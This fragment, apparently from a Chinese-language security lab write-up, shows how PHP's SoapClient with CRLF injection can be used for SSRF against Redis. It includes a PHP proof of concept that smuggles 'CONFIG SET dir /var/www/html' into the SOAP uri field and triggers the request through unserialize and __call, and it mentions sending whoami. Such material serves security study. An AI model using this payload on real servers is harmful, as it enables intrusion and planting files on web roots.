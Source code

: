 
效果如下图

![image-20210531171238670](images/8.png)

这样就可以发送数据data=whoami

插入redis命令利用http协议攻击Redis

测试代码

```
<?php
$target = 'http://127.0.0.1:2333/';
$poc = "CONFIG SET dir /var/www/html";
$a = new SoapClient(null,array('location' => $target, 'uri' => 'hello^^'.$poc.'^^hello'));
$b = serialize($a);
$b = str_replace('^^',"\n\r",$b); 
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

![image-20210531171647190](images/9.png)
